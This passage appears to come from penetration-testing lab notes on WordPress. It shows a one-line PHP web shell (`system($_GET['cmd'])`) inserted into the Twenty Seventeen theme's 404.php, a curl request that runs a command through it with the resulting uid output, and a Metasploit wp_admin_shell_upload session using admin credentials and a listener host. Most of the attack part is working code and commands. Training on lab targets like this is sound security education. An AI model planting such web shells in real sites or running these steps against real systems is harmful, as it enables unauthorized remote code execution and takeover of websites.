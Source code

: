 <figure><img src="../../.gitbook/assets/Twenty-Seventeen.png" alt=""><figcaption></figcaption></figure>

```php
<?php

system($_GET['cmd']);

/**
 * The template for displaying 404 pages (not found)
 *
 * @link https://codex.wordpress.org/Creating_an_Error_404_Page
<SNIP>
```

Then execute this command :

```bash
curl -X GET http://167.172.57.150:31546/wp-content/themes/twentyseventeen/404.php?cmd=id 
```

And you get this response :

```
uid=1000(wp-user) gid=1000(wp-user) groups=1000(wp-user)
```

### Metasploit

```bash
msfconsole
```

```
msf5 > search wp_admin
msf5 > use 0
msf5 exploit(unix/webapp/wp_admin_shell_upload) > options
...
msf5 exploit(unix/webapp/wp_admin_shell_upload) > set rhosts blog.inlanefreight.com
msf5 exploit(unix/webapp/wp_admin_shell_upload) > set username admin
msf5 exploit(unix/webapp/wp_admin_shell_upload) > set password Winter2020
msf5 exploit(unix/webapp/wp_admin_shell_upload) > set lhost 10.10.16.8
msf5 exploit(unix/webapp/wp_admin_shell_upload) > run
```
